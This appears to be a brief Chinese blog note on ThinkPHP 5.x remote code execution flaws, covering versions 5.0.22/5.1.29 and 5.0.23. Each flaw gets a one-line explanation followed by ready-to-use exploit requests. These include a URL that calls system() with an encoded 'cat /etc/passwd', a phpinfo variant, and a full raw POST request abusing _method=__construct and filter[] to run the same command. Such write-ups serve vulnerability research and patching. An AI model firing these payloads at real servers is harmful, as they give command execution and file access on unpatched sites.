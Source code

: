 ```yaml
---
title: "ThinkPHP 5.x 远程代码执行"
author: ["4shen0ne"]
tags: ["vuln"]
draft: false
---
```


## version 5.0.22/5.1.29 {#version-5-dot-0-dot-22-5-dot-1-dot-29}

由于框架对控制器名没有进行足够的检测，导致在没有开启强制路由的情况下（即默认情况）
可以执行任意方法，造成 RCE 漏洞。

利用 system 函数执行命令：

```nil
http://localhost:8080/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64
```

{{< figure src="/ox-hugo/2020-12-19_23-26-20_snipaste_2019-08-08_13-38-12.png" >}}

显示 phpinfo 页面：

```nil
http://localhost:8080/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```


## 5.0.23 {#5-dot-0-dot-23}

在获取 method 的方法中没有正确处理方法名，导致攻击者可以调用 Request 类任意方法
并构造利用链，造成 RCE 漏洞。

```nil
POST /index.php?s=captcha HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: TUw_sid=4N3wkZ; TUw_visitedfid=2
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 85

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=cat /etc/passwd
```

[相关代码](https://github.com/top-think/framework/commit/4a4b5e64fa4c46f851b4004005bff5f3196de003)
